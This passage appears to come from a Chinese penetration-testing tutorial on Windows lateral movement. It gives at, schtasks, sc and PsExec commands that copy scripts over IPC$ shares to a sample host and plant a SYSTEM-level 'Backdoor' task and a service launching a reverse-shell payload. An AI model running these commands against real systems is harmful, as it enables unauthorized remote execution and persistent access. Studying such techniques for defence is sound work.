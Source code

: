   **AT利用流程：**
① 建立 IPC 链接到目标主机
② 拷贝要执行的命令脚本到目标主机
```
copy hack.bat \\192.168.1.131\c$\Windows\Temp
```
③ 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
```
net time \\192.168.1.131
at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat
```
④ 删除 IPC 链接
```
at \\192.168.1.131 任务ID /delete
```
  ps: Windows Server 2012 以后的版本没有at命令，只有schtasks命令

  **schtasks利用流程：**
① 利用已建立的IPC连接上传后门程序
② 利用已建立的IPC连接或指定用户凭据的方式在远程主机上创建计划任务shell
```
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\shell.exe /RN System /F 
```
③ 等待计划任务自行执行，或者立即启动计划任务shell
```
schtasks /RUN /S 192.168.1.131 /I /TN Backdoor
```
④ 查看计划任务shell
```
schtasks /query /S 192.168.1.131 /TN Backdoo
```
⑤ 删除计划任务shell
```
schtasks /Delete /S 192.168.1.131 /TN Backdoor /F
```
  ps:在使用schtasks命令时，会在系统中留下日志文件C:\Windows\Tasks\SchedLgU.txt

#### SC创建Windows服务进行横向渗透
  ① 创建远程服务需要拥有两端主机的管理员权限（要创建服务）和IPC连接
  ② 利用已建立的共享连接向远程主机上传攻击载荷reverse_tcp.exe
  ③ 利用已建立的IPC连接在远程主机上创建系统服务shell
```
sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe"
```
  ④ 删除服务shell
```
sc \\192.168.1.131 delete Backdoor
```
  ps:binpath的等号后面需要有一个空格

#### PsExec工具横向
  psexec 是 windows 开发的远程命令行工具。
  psexec的使用不需要对方主机开方3389端口，只需要对方开启admin$共享 (该共享默认开启)。
  目标主机开启了防火墙，psexec会提示找不到网络路径。但由于PsExec是Windows提供的工具，所以杀毒软件将其列在白名单中。 
  如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务）
  如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。
  **基本原理：**
  通过ipc$连接，释放二进制文件psexecsvc.exe到目标
  通过服务管理SCManager远程创建一个psexec服务，并启动服务
```
psexec.exe -accepteula \\192.168.1.131 -u Administrator -p password@ -s cmd.exe 
```
  客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
```
psexec.exe -accepteula \\192.168.1.131 -s cmd.exe
```
  运行结束后删除服务
